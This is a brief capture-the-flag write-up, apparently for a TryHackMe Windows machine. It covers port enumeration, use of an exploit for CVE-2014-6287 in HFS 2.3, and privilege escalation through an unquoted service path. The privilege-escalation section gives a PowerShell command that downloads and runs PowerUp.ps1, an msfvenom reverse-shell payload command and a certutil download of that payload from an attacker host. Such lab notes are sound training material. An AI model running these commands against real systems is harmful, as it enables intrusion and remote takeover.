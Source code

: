 # Enumeration 

## open ports

```
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                         
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds       
3389/tcp  open  ssl          Microsoft SChannel TLS                       
80/tcp    open  http         Microsoft IIS httpd 8.5    
8080/tcp  open  http         HttpFileServer httpd 2.3                     


```

### Port 8080

![[Pasted image 20230119041559.png]]
HFS 2.3 is vulnerable to CVE 
[CVE-2014-6287](https://www.exploit-db.com/exploits/49584)
changing ip addresses in the script
![[Pasted image 20230119041633.png]]
and run it

# Foothold 


![[Pasted image 20230119041645.png]]

we a re in as bill

# Privesc 

running powerup on the target

` IEX(new-object net.webclient).downloadstring('http://10.10.105.75:8000/PowerUp.ps1') `
![[Pasted image 20230119043241.png]]

![[Pasted image 20230119043254.png]]
we can do unquoted privesc and we have write perm
first we create a reverse shell payload using msfvenom and name it Advanced.exe
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.105.75 LPORT=9002 -f exe -o Advanced.exe`

```
PS C:\Program Files (x86)\IObit> 
certutil -urlcache -f http://10.10.105.75:8000/Advanced.exe Advanced.exe

Restart-Service -Name AdvancedSystemCareService9

```
![[Pasted image 20230119043449.png]]


# Loot



---
Tags: #ctf #thm #unquoted 
Resources: 